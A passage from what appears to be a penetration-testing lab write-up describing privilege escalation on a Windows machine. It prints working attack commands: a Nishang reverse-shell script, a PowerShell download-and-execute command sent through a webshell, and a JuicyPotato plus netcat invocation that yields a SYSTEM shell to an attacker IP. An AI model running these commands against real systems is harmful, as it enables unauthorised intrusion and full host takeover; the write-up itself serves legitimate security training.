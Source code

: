 9. Next, I prepared a copy of Nishang's Invoke-PowershellTcp.ps1 script and inserted the following command at the bottom to cause the script to automatically connect to my Kali Machine:

   ```powershell
   # shell.ps1 addition
   Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 8000
   ```

10. I started a netcat listener, a webserver to host up the Poweshell script, then I issued the following command through the Laudanum webshell to get a reverse shell as the user `destitute`

    ```powershell
    # Webshell command
    cmd.exe /c powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.37/shell.ps1')
    ```

    ![image-20201120220213202](.Report.assets/image-20201120220213202.png)
    
11. I enumerated the system to find that this was running Windows 10 Enterprise x64 and I also found the user has SeImpersonate privileges as well.  

12. To exploit the seimpersonate privilege, I employed JuicyPotat.  I transferred the x64 version of this executable as well as a copy of netcat to the server, started a netcat listener, and used JuicyPotato to execute a reverse shell as SYSTEM

    ```powershell
    cmd.exe /c "JuicyPotato.exe -l 1337 -p c:\coyote\nc.exe -a "-nv 10.10.14.37 8000 -e cmd.exe" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
    ```

    ![image-20201121160149981](.Report.assets/image-20201121160149981.png)
